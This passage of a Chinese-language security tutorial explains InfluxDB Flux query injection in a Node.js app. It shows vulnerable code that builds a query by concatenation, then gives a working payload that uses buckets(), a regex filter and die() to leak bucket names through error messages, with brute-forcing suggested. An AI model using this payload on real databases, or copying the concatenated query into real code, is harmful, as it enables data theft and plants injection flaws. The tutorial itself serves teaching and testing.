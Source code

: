 ```node.js
      res.send(err.toString())  
    }
});

const port = 3000;

app.listen(port, () => {
  console.log(`Server started on port ${port}`);
});

```

当我们只传入`"`的时候

![nosql16.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-637cbb53e112a069cc67f1d19bb7f5def4cb64a5.png)  
发现了报错，也就是：

```node.js
const fluxQuery = '
from(bucket:"' + bucket + '") 
|> range(start: 0)  
|> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
result = await query(fluxQuery)
```

这样的查询语句，其报错内容在 <https://docs.influxdata.com/influxdb/v2.7/> 可以查找到，所以可以知道是influxdb的数据库

### 构建一些playload

#### 泄露bucket的名称

playload：

```node.js
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^a.*/ and die(msg:r.name)) 
//
```

1. 该`buckets()`函数列出当前数据库中的所有存储桶。
2. 该`filter()`函数使用`r.name`表达式来过滤存储桶名称，该名称`r`是存储桶查询的结果，并且`name`是函数中返回的字段`buckets()`。
3. 如您所见，InfluxDB 查询支持正则表达式操作`=~`，因此条件背后的逻辑`r.name =~ /^a.*/`是，`true`如果存储桶名称以字母 开头，则为该条件`a`。
4. 之后，过滤器使用一个`and`条件来调用函数，`die()`并将存储桶名称的值作为参数。该`die()`函数会抛出一个错误，并在第一个参数中传递自定义消息，这将泄漏存储桶名称。
5. 有效负载也在`yield()`存储桶查询之前使用该函数。这是在 InfluxDB 上的单个请求中执行“多个查询”所必需的。
6. 最后，有必要用`yield()`一个新行将 与存储桶查询分开，并且在有效负载的末尾，我在`//`另一个新行后面添加了表达式，以注释注入后的所有内容。

也就是如果数据库中存在以`a`开头的数据库名，他就会返回其name，如果没有的话就会返回null  
当为`a`时：

![nosql17.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-f77465a300fab5aedc644c5c964c972f5f685d4e.png)  
当为`p`时：

![nosql18.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-548eafcaf8b1bb983ed5eb1206d9a78adc432ef5.png)  
可以看见返回了`privateBucket`这个bucket，这个地方可以用burp爆  
exp.py:
